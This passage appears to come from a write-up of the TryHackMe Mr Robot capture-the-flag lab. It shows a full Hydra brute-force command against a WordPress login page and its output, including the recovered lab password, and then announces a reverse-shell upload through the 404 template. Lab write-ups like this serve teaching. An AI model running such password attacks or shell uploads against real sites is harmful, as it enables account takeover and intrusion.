 We found the username, `Elliot`. Let's bruteforce the password now.
```bash
$ hydra -l Elliot -P Downloads/sorted_fsociety.dic 10.10.250.224 http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -t 35
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-13 22:21:14
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 35 tasks per 1 server, overall 35 tasks, 11452 login tries (l:1/p:11452), ~328 tries per task
[DATA] attacking http-post-form://10.10.250.224:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location
[STATUS] 208.00 tries/min, 208 tries in 00:01h, 11244 to do in 00:55h, 35 active
[STATUS] 189.00 tries/min, 567 tries in 00:03h, 10885 to do in 00:58h, 35 active
[STATUS] 228.57 tries/min, 1600 tries in 00:07h, 9852 to do in 00:44h, 35 active
^[[STATUS] 203.33 tries/min, 3050 tries in 00:15h, 8402 to do in 00:42h, 35 active
[80][http-post-form] host: 10.10.250.224   login: Elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-13 22:49:20
```

We got the password, let's login.

<a href="/assets/images/tryhackme/mr-robot-ctf/4.png"><img src="/assets/images/tryhackme/mr-robot-ctf/4.png"></a>

## Exploit

Let's upload our reverse shell at the `404 template`!
